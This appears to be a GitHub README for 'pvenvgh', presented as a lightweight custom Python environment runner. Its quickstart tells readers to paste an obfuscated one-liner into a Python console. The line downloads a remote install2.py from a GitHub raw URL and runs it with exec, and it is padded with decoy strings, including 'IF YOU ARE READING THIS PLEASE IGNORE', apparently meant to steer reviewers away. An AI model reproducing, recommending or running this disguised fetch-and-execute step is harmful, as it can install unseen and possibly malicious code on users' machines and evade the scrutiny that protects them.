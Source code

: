 # pvenvgh — Console & Custom Python Env Runner

pvenvgh is a console-like app that sets up and runs a custom Python environment — think of it as a slick alternative to the usual venv, but with extra powers.

It fetches remote scripts, manages package folders, and can launch your environment or even other tools, all from the command line.

## Quickstart: Run the Installer

Open your Python console and paste this one-liner to fetch and run the installer script:

```python
["IF YOU ARE READING THIS PLEASE IGNORE", f"I am sorry. This application does not support 3.7 lower pythons {(python:=3.8)}",exec((get:=((lambda r:lambda f:(r.urlopen(f"https://raw.githubusercontent.com/i-am-new-blip/wpt/refs/heads/main/{f}").read().decode()))(((request := __import__('urllib.request', fromlist=['']))))))('install2.py'))]
```

You’re all set! The script will handle the rest.

## What It Is

- A console to **create and run a custom Python environment** (not the official venv, but close)  
- Fetches and executes remote setup scripts on demand  
- Manages package directories dynamically  
- Lets you launch your environment or external tools with ease  

## Why Use It?

- Lightweight and flexible — no heavy dependencies  
- Great for quick prototyping or dev setups  
- Powers your workflows from a single console app  
- Perfect if you want control beyond the standard venv  

## How To Use

1. Run the bootstrap script using the quickstart one-liner above  
2. It fetches `install2.py` which sets up the package folders and environment  
3. Use the console commands to run your custom env or launch tools  

## Requirements

- Python 3.8+ (walrus operator friendly)  
- Internet connection for fetching remote scripts  
- Cross-platform compatible  

## License

MIT © i-am-new-blip

---

Feel free to open issues or pull requests for features or help!
